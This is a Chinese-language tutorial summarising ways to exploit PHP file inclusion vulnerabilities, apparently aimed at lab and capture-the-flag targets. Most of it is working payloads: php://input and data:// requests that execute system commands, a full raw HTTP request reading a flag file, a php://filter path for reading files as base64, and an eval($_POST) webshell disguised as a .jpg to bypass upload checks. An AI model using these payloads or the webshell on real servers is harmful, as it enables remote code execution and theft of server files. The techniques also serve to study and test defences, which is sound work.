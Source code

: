 ## 一些常见的文件包含漏洞的利用技法总结.

文件包含漏洞在服务器端代码中主要以下述形式的$php$代码呈现:

```php+HTML
/*demo.php*/
<?php
    include($_GET['action']);
?>

```

这里我们给出一些利用漏洞的方法.

### 1.php:://input伪协议的利用

我们可以利用$php$为协议, 一般在POST参数中构造我们想要注入的$php$语句.

###### GET 参数：

```http
/?action=php://input
```

###### Post 参数:

```php+HTML
<?php system("dir"); ?>
```

###### 或者:

```php+HTML
<?php echo file_get_contents("../../flag.txt");?>
```

###### http形式的完整注入payload如下:

```http
POST /labs/IncludeAttack/demo.php/?action=php://input HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

<?php echo file_get_contents("../../flag.txt");?>
```

在这里, 语句

```php
file_get_contents('php://input');
```

用于直接将POST参数本身作为字符串赋值或者回显.

#### 2.结合文件上传漏洞利用

在文件上传漏洞中,我们构造木马$virus.php$:

```php
/*virus.php*/
<?php
    eval($_POST['pwd']);
?>
```

在上传过程中捕获数据包,将后缀改为 .jpg 从而绕过前端的检查, 在靶机/ 目标服务器中我们有了一份可执行的病毒文件.

我们构造payload:

###### GET参数

```http
/?action=virus.jpg
```

###### POST参数

```php
pwd=system("dir");
// or pwd=system("ls -la");
// or pwd= echo file_get_contents("../../flag.txt");
```

#### 3.php://filter伪协议的利用

###### GET 参数

```http
php://filter/read=convert.base64-encode/resource=../../flag.txt
```

 回显内容是该路径下文件的base64加密格式.

#### 4.任意可执行文件注入

我们在GET参数中直接注入我们想让服务器执行的php脚本, 将特殊字符替换为 %ord(byte)的格式来解析从而避免闭合问题等.

###### GET 参数

```http
// data: text/plain,<?php system("dir");?>
/?action=data%3a+text/plain,<%3fphp+system+%28"dir"%29%3b+%3f>
```

